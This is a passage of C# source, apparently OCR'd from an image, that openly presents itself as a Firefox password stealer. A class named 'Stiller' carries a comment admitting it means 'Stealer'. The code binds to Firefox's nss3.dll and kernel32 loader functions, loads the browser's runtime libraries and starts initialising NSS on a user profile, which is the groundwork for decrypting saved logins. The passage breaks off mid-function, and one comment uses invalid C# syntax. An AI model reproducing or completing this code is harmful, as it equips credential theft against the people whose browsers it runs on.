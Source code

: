```csharp
                        public static extern int NSS_Init(byte[] path);	
                    
                    [DllImport("nss3.dll", EntryPoint = "NSS_Shutdown", CallingConvention = CallingConvention.StdCall,  CharSet = CharSet.Auto)]
                        public static extern int NSS_Shutdown();
                
                    [DllImport("nss3.dll", CharSet=CharSet.Auto)]	
                        public static extern int PORT_GetError();
                
                    [DllImport("nss3.dll", CharSet=CharSet.Auto)]		
                        public static extern IntPtr PR_ErrorToName(int err);
                }

                internal static class UnsafeNativeMethods
                {
                    [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
                        internal static extern IntPtr LoadLibrary(string lpFileName);
            
                    [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
                        internal static extern bool FreeLibrary(IntPtr hModule);
            
                    [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
                        internal static extern bool SetDllDirectoryW(string lpPathName);

                    [DllImport("kernel32.dll", CharSet = CharSet.Auto, CallingConvention = CallingConvention.StdCall, SetLastError = true)]
                        internal static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
                }

                public static class Stiller # You want say "Stealer" ? lol 
                {
                    static IntPtr pk11slot = IntPtr.Zero;
                    static IntPtr vcruntime140dll = IntPtr.Zero;
                    static IntPtr msvcp140dll = IntPtr.Zero;
                    static IntPtr mozgluedll = IntPtr.Zero;
                    static IntPtr nss3dll = IntPtr.Zero;

                    public static void loadHelpers(string ffPath) 
                    {
                        Stiller.vcruntime140dll = UnsafeNativeMethods.LoadLibrary(ffPath + "\\vcruntime140.dll");
                        Stiller.msvcp140dll = UnsafeNativeMethods.LoadLibrary(ffPath + "\\msvcp140.dll");
                        Stiller.mozgluedll = UnsafeNativeMethods.LoadLibrary(ffPath + "\\mozglue.dll"); 
                    }

                    public static IntPtr loadNSS3(string ffPath)
                    {
                        IntPtr nss3 = UnsafeNativeMethods.LoadLibrary(ffPath + "\\nss3.dll"); 
                        Stiller.nss3dll = nss3;
                        return nss3;    
                    }
        
                    public static bool initFF(string ffPath, string profilePath)
                    {
                        bool result = false;
                        loadHelpers(ffPath);
                            if(loadNSS3(ffPath) != IntPtr.Zero)
                            {
                                IntPtr nV = nss3.NSSUTIL_GetVersion();
```